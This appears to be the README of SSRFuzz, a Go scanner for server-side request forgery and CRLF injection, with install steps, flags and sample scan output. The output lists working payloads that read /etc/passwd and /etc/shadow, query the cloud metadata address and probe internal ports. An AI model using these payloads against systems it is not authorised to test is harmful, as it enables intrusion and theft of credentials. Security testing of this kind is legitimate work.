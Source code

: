 # SSRFUZZ

SSRFuzz is a tool to find Server Side Request Forgery vulnerabilities, with CRLF chaining capabilities

## Why?
- I wanted to write a tool in Golang for concurrency
- I wanted to fuzz parameters for SSRF vulnerablities, as well as fuzz _both_ paths and parameters for CRLF injections
- I was inspired by Orange's work for chaining these types of vulnerabilities together (https://blog.orange.tw)

## Installation

Run the following command to intsall

```bash
go get -u github.com/ryandamour/ssrfuzz
```

## Usage

```go

  ██████   ██████  ██▀███    █████▒█    ██ ▒███████▒▒███████▒
▒██    ▒ ▒██    ▒ ▓██ ▒ ██▒▓██   ▒ ██  ▓██▒▒ ▒ ▒ ▄▀░▒ ▒ ▒ ▄▀░
░ ▓██▄   ░ ▓██▄   ▓██ ░▄█ ▒▒████ ░▓██  ▒██░░ ▒ ▄▀▒░ ░ ▒ ▄▀▒░ 
  ▒   ██▒  ▒   ██▒▒██▀▀█▄  ░▓█▒  ░▓▓█  ░██░  ▄▀▒   ░  ▄▀▒   ░
▒██████▒▒▒██████▒▒░██▓ ▒██▒░▒█░   ▒▒█████▓ ▒███████▒▒███████▒
▒ ▒▓▒ ▒ ░▒ ▒▓▒ ▒ ░░ ▒▓ ░▒▓░ ▒ ░   ░▒▓▒ ▒ ▒ ░▒▒ ▓░▒░▒░▒▒ ▓░▒░▒
░ ░▒  ░ ░░ ░▒  ░ ░  ░▒ ░ ▒░ ░     ░░▒░ ░ ░ ░░▒ ▒ ░ ▒░░▒ ▒ ░ ▒
░  ░  ░  ░  ░  ░    ░░   ░  ░ ░    ░░░ ░ ░ ░ ░ ░ ░ ░░ ░ ░ ░ ░
      ░        ░     ░               ░       ░ ░      ░ ░    
                                           ░        ░        

===============================================================
SSRFUZZ 1.2
by Ryan D'Amour @ryandamour 
===============================================================A scanner for all your SSRF Fuzzing needs

Usage:
  ssrfuzz scan [flags]

Flags:
  -b, --call-back string       Add callback for SSRF fuzzing (ie: https://github.com/ropnop/serverless_toolkit/tree/master/ssrf_slack)
  -c, --cookie string          Cookie to use for requests
      --crlf-path              Add CRLF payloads to all available paths (ie: site.com/%0Atest.php)
      --delay int              The time each threads waits between requests in milliseconds (default 100)
  -d, --domains string         Location of domains with parameters to scan
  -h, --help                   help for scan
  -x, --http-method string     HTTP Method - GET or POST (default "GET")
  -o, --output string          Location to save results
      --skip-crlf              Skip CRLF fuzzing
      --skip-network           Skip network fuzzing
      --skip-scheme            Skip scheme fuzzing
  -s, --slack-webhook string   Slack webhook to send findings to a channel
  -t, --threads int            Number of threads to run ssrfuzz on (default 50)
      --timeout int            The amount of time needed to close a connection that could be hung (default 10)
  -u, --user-agent string      User agent for requests (default "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/81.0.4044.138 Safari/537.36")
  -v, --verbose                verbose output
```

```bash
Usage: 
echo "http://url_to_fuzz" | ssrfuzz scan
cat file_of_domains.txt | ssrfuzz scan
ssrfuzz scan -d file_of_domains.txt
```

```go
* Scanning http and scheme payloads w/ crlf:

echo "http://192.168.1.10/test.php?u=" | go run main.go scan
 
[!] Scheme payload match:
* http://192.168.1.10/test.php?u=file://etc/passwd 200

[!] Interesting payloads found
* http://192.168.1.10/test.php?u=http://127.1.0.0:80 200
* http://192.168.1.10/test.php?u=http://127.1.0.0:8080 500
* http://192.168.1.10/test.php?u=http://127.1.0.0:443 500
* http://192.168.1.10test.php?u=http://127.1.0.0:22 500
* http://192.168.1.10/test.ph?u=http://127.1.0.0:25 500
* http://192.168.1.10/test.php?u=http://127.1.0.0:445 500

[!] Interesting payloads found
* http://192.168.1.10/test.php?u=http://127.127.127.127:80%23%OA 200
* http://192.168.1.10/test.php?u=http://127.127.127.127:80%23%OA 200
* http://192.168.1.10/test.php?u=http://127.127.127.127:8080%23%OA 500
* http://192.168.1.10/test.php?u=http://127.127.127.127:8080%23%OA 500
```

```go
* Scanning only http payloads w/ crlf:

echo "http://192.168.1.10/test.php?u=" | go run main.go scan --skip-scheme

[!] Interesting payloads found
* http://192.168.1.10/test.php?u=http://127.127.127.127:80%23%OA 200
* http://192.168.1.10/test.php?u=http://127.127.127.127:80%23%OA 200
* http://192.168.1.10/test.php?u=http://127.127.127.127:8080%23%OA 500
* http://192.168.1.10/test.php?u=http://127.127.127.127:8080%23%OA 500
* http://192.168.1.10/test.php?u=http://127.127.127.127:443%23%OA 500
* http://192.168.1.10/test.php?u=http://127.127.127.127:443%23%OA 500
* http://192.168.1.10/test.php?u=http://127.127.127.127:25%23%OA 500
* http://192.168.1.10/test.php?u=http://127.127.127.127:25%23%OA 500
* http://192.168.1.10/test.php?u=http://127.127.127.127:22%23%OA 500
* http://192.168.1.10/test.php?u=http://127.127.127.127:22%23%OA 500
* http://192.168.1.10/test.php?u=http://127.127.127.127:445%23%OA 500
* http://192.168.1.10/test.php?u=http://127.127.127.127:445%23%OA 500
```

```go
* Scanning only http payloads w/o crlf:

echo "http://192.168.1.10/test.php?u=" | go run main.go scan --skip-scheme --skip-crlf

[!] Interesting payloads found
* http://192.168.1.10/test.php?u=http://127.1.0.0:80 200
* http://192.168.1.10/test.php?u=http://127.1.0.0:8080 500
* http://192.168.1.10/test.php?u=http://127.1.0.0:443 500
* http://192.168.1.10/test.php?u=http://127.1.0.0:22 500
* http://192.168.1.10/test.php?u=http://127.1.0.0:25 500
* http://192.168.1.10/test.php?u=http://127.1.0.0:445 500
```

```go
* Scanning only scheme payloads w/o crlf:

echo "http://192.168.1.10/test.php?u=" | go run main.go scan --skip-network --skip-crlf

[!] Interesting payloads found
* http://192.168.1.10/test.php?u=file:///etc/passwd 200
* http://192.168.1.10/test.php?u=file:///etc/shadow 500
* http://192.168.1.10/test.php?u=file://169.254.169.254/ 500
```


## Contributing
Pull requests are welcome. For major changes, please open an issue first to discuss what you would like to change.

Please make sure to update tests as appropriate.

## License
[MIT](https://choosealicense.com/licenses/mit/)

## Sponsored By
[Stage2Security](https://www.stage2sec.com)
![alt text](https://miro.medium.com/max/168/1*Pzr_iwx12ycGpGg0K0Yauw.png)

